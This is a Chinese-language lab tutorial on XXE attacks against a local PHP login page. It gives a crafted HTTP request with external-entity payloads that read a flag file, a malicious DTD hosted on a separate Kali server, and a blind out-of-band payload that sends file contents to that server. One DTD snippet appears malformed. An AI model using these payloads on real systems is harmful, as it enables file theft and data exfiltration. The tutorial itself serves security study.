 那么如何读取存在特殊字符的文件呢？<br />首先，写下如下代码
```xml
<?xml version="1.0" encoding="utf-8"?>
<ENTITY all "%start;%baz;%stop;"
```
再将这段代码命名为blaze.dtd，并上传到另一台服务器，这里以 Kali Linux 为例<br />![截屏2021-06-18 上午7.49.01.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623973757345-d4a35c15-908f-4d99-8cb9-6ea6d7232c14.png#align=left&display=inline&height=97&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%887.49.01.png&originHeight=180&originWidth=824&size=82233&status=done&style=none&width=443)<br />输入<br />python -m http.server    启动监听<br />![截屏2021-06-18 上午7.51.27.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623973899142-c3cad7e7-a0b9-4045-a34e-699787478abd.png#align=left&display=inline&height=54&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%887.51.27.png&originHeight=118&originWidth=970&size=64864&status=done&style=none&width=443)<br />将发送报文修改为如下
```xml
POST /php_xxe/doLogin.php HTTP/1.1
Host: 192.168.43.231
Content-Length: 297
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.231
Referer: http://192.168.43.231/php_xxe/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version='1.0' encoding="utf-8"?>
<!DOCTYPE user[
<!ENTITY % baz SYSTEM "file:///c:/flag.txt">
<!ENTITY % start "<![CDATA[">
<!ENTITY % stop "]]>">
<!ENTITY % dtd SYSTEM "http://192.168.43.147:8000/blaze.dtd">
%dtd;
]>
<user><username>&all;</username><password>admin</password></user>
```
发包后，kali处也接到请求<br />![截屏2021-06-18 上午7.54.44.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623974094378-18f32fa0-a4fe-48a6-a505-56634fc7231e.png#align=left&display=inline&height=56&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%887.54.44.png&originHeight=146&originWidth=1194&size=98447&status=done&style=none&width=462)<br />与此同时，收到的回复包中，也已经显示出了带有特殊字符内容的flag文件的内容<br />![截屏2021-06-18 上午7.57.22.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623974258932-818b89ba-1a7f-457a-a2c7-9a7844ce4add.png#align=left&display=inline&height=1750&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-18%20%E4%B8%8A%E5%8D%887.57.22.png&originHeight=1750&originWidth=2696&size=663742&status=done&style=none&width=2696)
## XXE无回显读取敏感文件
无回显的情况下，可以让目标服务器（携带flag）向我们自己的一台服务器发起请求，在请求中携带自己内部的flag<br />首先在我们自己的服务器上存储如下内容的一个文件
```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.43.147/?content=%file;'>">%payload;
```
其中 &#x25 是 % 的html编码，作为payload的实体内容，有双引号包裹下，必须用html编码形式，因为实体的值中不能有 %<br />这里使用“实体定义作为另一个实体定义下的实体内容”的形式来实现<br />另外，其中的IP地址 192.168.43.147 即是此文件所在服务器的IP地址
